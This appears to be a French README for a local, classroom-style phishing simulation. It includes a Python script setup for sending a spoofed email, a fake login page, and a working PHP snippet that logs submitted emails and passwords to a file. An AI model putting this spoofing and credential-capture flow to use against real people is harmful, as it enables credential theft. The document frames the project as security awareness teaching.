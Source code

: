 # 🎓 Simulation d'Email Spoofing et de Page de Phishing

> ⚠️ Projet éducatif strictement local simulant une attaque de phishing.  
> ❌ Ne doit en aucun cas être utilisé contre des tiers réels ou en ligne.

---

## 📁 Structure du Projet

```
email_spoofing_project/
├── email_templates/
│   ├── spoofed_email.html        ← Modèle d'email HTML
│   └── spoofed_email.eml         ← (Optionnel) version EML
│
├── phishing_server/
│   ├── fake_login.html           ← Page de connexion simulée
│   ├── capture.php               ← Script de capture de credentials
│   └── stolen_credentials.txt    ← Stocke les identifiants saisis
│
├── email_sender/
│   └── send_spoofed_email.py     ← Script Python d'envoi du faux mail
│
├── requirements.txt              ← Dépendances Python (vide ou optionnel)
└── README.md                     ← Documentation complète
```

---

## ⚙️ Prérequis

- Python 3
- PHP (ligne de commande ou XAMPP/WAMP)
- Compte Gmail avec mot de passe d’application
- Navigateur web

---

## 🧩 Étape 1 – Préparer l’email HTML

📄 `email_templates/spoofed_email.html`

Ce fichier contient :

- Un message de confirmation d’inscription
- Un bouton “VERIFY YOUR EMAIL”
- Un lien vers `http://localhost:8000/fake_login.html`

🧠 L’email n’utilise pas de JavaScript — uniquement HTML/CSS.

---

## 📨 Étape 2 – Envoi de l'email

📄 `email_sender/send_spoofed_email.py`

Ce script :

- Charge le fichier HTML
- Se connecte à un SMTP (ex : Gmail)
- Envoie l’email à une cible simulée

🔧 À configurer :

```python
msg['From'] = 'spoofed@exemple.com'
msg['To'] = 'victime@exemple.com'
sender_email = 'ton_adresse@gmail.com'
app_password = 'mot_de_passe_application'
```

🔐 Obtenir un mot de passe d'application :  
https://myaccount.google.com/apppasswords

🟢 Lancement :

```bash
cd email_sender
python send_spoofed_email.py
```

---

## 🌐 Étape 3 – Créer la fausse page de login

📄 `phishing_server/fake_login.html`

Contient :

- Champs “email” et “password”
- Détection CapsLock
- Bouton “Connexion”

🎯 Le formulaire envoie les données vers `capture.php` en méthode GET.

---

## 🛡️ Étape 4 – Capturer les identifiants

📄 `phishing_server/capture.php`

```php
<?php
  $email = $_GET['email'];
  $pass = $_GET['password'];
  file_put_contents("stolen_credentials.txt", "Email: $email | Password: $pass\n", FILE_APPEND);
  echo "Vérification terminée.";
?>
```

🗃️ Les données sont enregistrées dans `stolen_credentials.txt`.

---

## 🚀 Étape 5 – Lancer le serveur local

```bash
cd phishing_server
php -S localhost:8000
```

🔗 Ouvrir : [http://localhost:8000/fake_login.html](http://localhost:8000/fake_login.html)

---

## 🔄 Étape 6 – Flux complet du test

1. L’attaquant crée un faux email (HTML)
2. L’envoie à la victime avec `send_spoofed_email.py`
3. La victime clique sur le lien et tombe sur `fake_login.html`
4. Elle entre ses identifiants
5. Le script `capture.php` les enregistre
6. La page affiche “Vérification terminée”

---

## 🧪 Étape 7 – Bonnes pratiques & éthique

- Ne jamais utiliser ce projet en dehors d’un cadre privé ou académique
- Ne jamais viser une vraie adresse institutionnelle
- Ne jamais simuler de redirection vers des services officiels
- Toujours informer les participants et encadrants

---

## 👨‍🏫 Auteur

Projet réalisé dans le cadre d’un exercice pédagogique de cybersécurité.  
But : illustrer les techniques de phishing et sensibiliser à la sécurité numérique.
